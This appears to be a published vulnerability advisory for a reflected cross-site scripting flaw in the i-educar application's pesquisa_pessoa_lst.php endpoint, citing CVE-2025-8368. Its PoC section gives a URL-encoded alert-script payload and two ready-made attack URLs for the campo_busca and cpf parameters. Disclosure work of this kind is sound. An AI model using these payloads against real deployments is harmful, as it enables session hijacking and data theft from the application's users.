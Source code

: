 # Cross-Site Scripting (XSS) Reflected endpoint `/intranet/pesquisa_pessoa_lst.php` parameters `campo_busca` and `cpf`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `intranet/pesquisa_pessoa_lst.php` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `campo_busca` and `cpf` parameters.

---

## Details

**Vulnerable Endpoint:** `GET /intranet/pesquisa_pessoa_lst.php`  
**Parameters:** `campo_busca`, `cpf`

The application fails to validate and sanitize user inputs in the `campo_busca` and `cpf` parameters. This lack of validation permits the injection of malicious payloads, which are reflected back to the user's browser in the server's response and executed within the context of the victim's browser session.

---

## PoC

Payload:
`%22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E`

<img width="1527" height="499" alt="image" src="https://github.com/user-attachments/assets/ab5f9f14-0aaa-4431-b521-a0c7a779abb1" />



This payload can be injected into either of the two parameters. Example attack URLs:

`/intranet/pesquisa_pessoa_lst.php?campo_busca=%22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E`

`/intranet/pesquisa_pessoa_lst.php?cpf=%22%3E%3Cscript%3Ealert%28%27XSS-PoC%27%29%3C%2Fscript%3E`

---

## Impact

Reflected cross-site scripting (XSS) attacks can have serious consequences, including:

- **User actions:** Attackers can perform any action the user can, such as viewing, modifying, or initiating interactions with other users
    
- **Data theft:** Attackers can exfiltrate data or install malware on the user's machine
    
- **Account compromise:** Attackers can manipulate or steal cookies, or compromise confidential information
    
- **Malicious code:** Attackers can execute malicious code on the user's system
    
- **Business reputation damage:** Attackers can deface a corporate website or spread misinformation
    
- **Misdirection:** Attackers can change the instructions given to users, which can be dangerous if the target is a government website or provides vital resources

## References

[CVE-2025-8368](https://www.cve.org/CVERecord?id=CVE-2025-8368)

[VulnDB-318340](https://vuldb.com/?id.318340)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
